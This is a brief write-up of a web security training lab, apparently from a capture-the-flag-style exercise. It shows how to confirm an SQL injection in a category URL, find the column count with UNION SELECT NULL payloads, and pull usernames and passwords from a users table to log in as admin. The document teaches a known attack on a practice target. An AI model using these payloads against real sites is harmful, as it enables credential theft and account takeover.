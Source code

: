 ![image](./ss/UNION-retrieving-data-from-other-tables1.png)

Clicking one of the categories and and appending `'` character to the url will cause a server error and will confirm that there's indeed an SQLi.

So we need to determine the number of columns like this. Our payloads will be concated to the url

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--    <- will work
```

Given in the lab description we can then query the users table with suitable column names which is `username` and `password`

```
' UNION SELECT username,password FROM users --
```

![image](./ss/UNION-retrieving-data-from-other-tables2.png)

After we log in to the admin account, lab will be completed.
